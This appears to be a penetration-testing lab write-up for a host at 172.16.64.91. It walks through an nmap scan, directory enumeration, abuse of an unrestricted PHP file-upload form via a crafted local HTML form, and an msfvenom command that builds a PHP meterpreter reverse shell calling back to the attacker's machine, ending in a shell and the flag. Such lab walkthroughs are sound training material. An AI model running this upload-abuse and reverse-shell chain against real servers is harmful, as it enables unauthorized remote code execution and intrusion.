





# 172.16.64.91
```
Nmap scan report for 172.16.64.91
Host is up (0.090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Going to the url found in /etc/hosts of the .92 machine will give us a 404
 but running dirb will show us a `/app` directory


which tells us to login



Now, this one took me a bit to find the right path but viewing the source, we see the form post request is going to `upload/upload.php` but the file itself is in `app/upload.php` when inspected in burpsuite. 


If we take this source code local to our machine, we can try to upload a file as a test using the website URL as our form target. 

### Local form
```
<html>
<body>
    <form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php" method="post" enctype="multipart/form-data">
        <br/>
        <br/>
        <input type="file" name="fileToUpload" id="fileToUpload">
        <br/>
        <br/>
        <input type="submit" value="Upload" name="submit">
    </form>
</body>
</html>
```

### test.php
```
<?php
phpinfo();
?>
```

Uploading this and then visiting the URL `http://75ajvxi36vchsv584es1.foocorp.io/app/upload/test.php` gives us the PHP Info page. At this point we confirmed file upload abuse so we can generate a shell with `msfvenom` and get a meterpreter session started.

### Shell  
`msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php`

Once uploaded and we have a meterpreter session listening, we go to `http://75ajvxi36vchsv584es1.foocorp.io/app/upload/shell.php` and see a session start in meterpreter. Enter shell to get into bash and running `ls -la` shows us the flag is inthe `/var/www/html` directory. 

